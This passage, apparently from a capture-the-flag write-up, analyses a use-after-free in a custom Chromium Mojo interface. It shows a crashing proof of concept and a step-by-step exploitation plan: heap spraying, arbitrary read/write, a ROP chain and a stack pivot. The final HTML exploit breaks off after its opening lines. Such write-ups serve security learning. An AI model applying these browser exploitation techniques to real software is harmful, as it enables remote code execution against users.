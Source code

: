 This means that `TStorageImpl->inner_db_` will be equal to `TInstanceImpl->inner_db_ptr_`. Since both of the pointer point to the same memory, **freeing one of them will cause another one to become a dangling pointer.** We then test our theory with the following PoC:

```javascript
// After we create TStorage and TInstance
 
await tsptr.ptr.reset(); // Free TStorage, this will cause TStorageImpl->inner_db_ to be freed
await tiptr.getTotalSize(); // Chromium will crash
```

The code above will crash Chromium. This is because `tsptr.ptr.reset()` will free `inner_db_ptr_`, and `tiptr.getTotalSize()` will call `inner_db_ptr_->GetTotalSize();` ( a virtual method ). Since `inner_db_ptr_` is now a dangling pointer, the vtable is now corrupted, causing the program jump to an invalid address, thus crashing the program.

#### Exploitation

Our plan is simple. Since now `inner_db_ptr_` is a dangling pointer, we'll tried to reclaim its memory buffer ( e.g. heap spraying ) and overwrite the structure of `inner_db_ptr_`. If we can control the vtable, we'll be able to jump to an arbitrary address by calling `tiptr.getTotalSize()`.

However it's not easy to reclaim its memory buffer. We're not familiar with PartitionAlloc so all we did is trial and error: 

* Free lots of chunk
* Re-allocate lots of chunk
* See if we have successfully reclaim the memory by scanning a string with special pattern, which was sprayed in the heap during the re-allocation phase.

After spending lots of time spraying the heap we finally managed to reclaim the memory and was able to control the structure of `inner_db_ptr_`. This means that we're able to control not only the vtable, but also the data pointer of `inner_db_ptr_->queue_`. By controlling the queue's data pointer, **we'll be able to achieve arbitrary read/write by doing `pop/push`**.

So here's our exploit plan:
* Leak libc and text address.
* Trigger the UAF vulnerability, let `inner_db_ptr_` become a dangling pointer.
* Spray the heap so we can reclaim the memory buffer of `inner_db_ptr_`. Now we control the vtable and the queue's data pointer.
* Use arbitrary write to write ROP chain to the bss section of the Chromium binary.
* Control vtable and let it point to gadget `xchg rax, rsp ; ret`.
    * Since `rax` is controllable, we'll pivot our stack to bss section and jump to our ROP chain.
* Finally, hijack control flow by calling `getTotalSize()`.

Here's our final exploit, some details can be found in the code comment:

```html
<html>
    <pre id='log'></pre>
    <script src="../mojo_bindings.js"></script>
    <script src="../third_party/blink/public/mojom/tstorage/tstorage.mojom.js"></script>
    <script>
        function print(string) {
            var log = document.getElementById('log');
            if (log) {
                log.innerText += string + '\n';
            }
        }
        function hex(data) {
            return "0x"+data.toString(16);
        }

        (async function pwn() {
            print("Creating TStoragePtr...");
            tsptr = new blink.mojom.TStoragePtr();
            Mojo.bindInterface(blink.mojom.TStorage.name, mojo.makeRequest(tsptr).handle);
            await tsptr.init();
```